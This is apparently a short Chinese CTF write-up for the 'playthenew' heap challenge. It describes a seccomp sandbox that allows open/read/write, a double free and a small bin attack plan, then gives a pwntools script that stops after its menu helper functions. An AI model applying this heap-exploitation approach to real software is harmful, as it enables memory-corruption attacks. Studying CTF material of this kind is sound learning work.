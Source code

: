 按快捷键c转为代码：

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104759769-ed9d873f-cf11-4e34-942a-a814e3b663f5.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104772055-c750062a-b38f-4ce5-8412-ac2ae686bb0d.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104777389-40cbdb33-bd60-4c98-be69-142dc536d5a7.png)设置了alarm和沙箱

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104813571-c5aaea02-c212-4605-95d0-3f5855dc7f15.png)

白名单允许ORW

存在一个危险函数：

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104916155-529bb601-e031-42b8-b110-d619dcab1fd2.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104950413-fdcef875-84da-448f-a145-32ada591935b.png)calloc不妨到tcache中

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104970170-277d69d5-d3fe-49fb-8407-b7c21f56fefb.png)double free

又是一个危险函数：
![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605104999079-ba5bc982-0506-440a-b16f-22b46d2fdee5.png)

思路就是small bin attack修改值后使用两个危险函数

### 脚本

```python
#/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = "amd64"
p = process('./playthenew')
# context.log_level = 'debug'
e = ELF('./playthenew')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def launch_gdb():
    os.system("gnome-terminal -- gdb -q ./playthenew " + str(proc.pidof(p)[0]))

def add(idx, size, name):
    p.sendlineafter('> ',str(1))
    p.sendlineafter('index:',str(idx))
    p.sendlineafter('ball:',str(size))
    p.sendafter('name:',name)

def delete(idx):
    p.sendlineafter('> ',str(2))
    p.sendlineafter('ball:',str(idx))

def show(idx):
    p.sendlineafter('> ',str(3))
    p.sendlineafter('ball:',str(idx))
    p.recvuntil('dance:')

def edit(idx, name):
    p.sendlineafter('> ',str(4))
    p.sendlineafter('ball:', str(idx))
    p.sendafter('ball:', name)

def secret(cnt):
    p.sendlineafter('> ',str(5))
    p.sendafter('place:', cnt)

```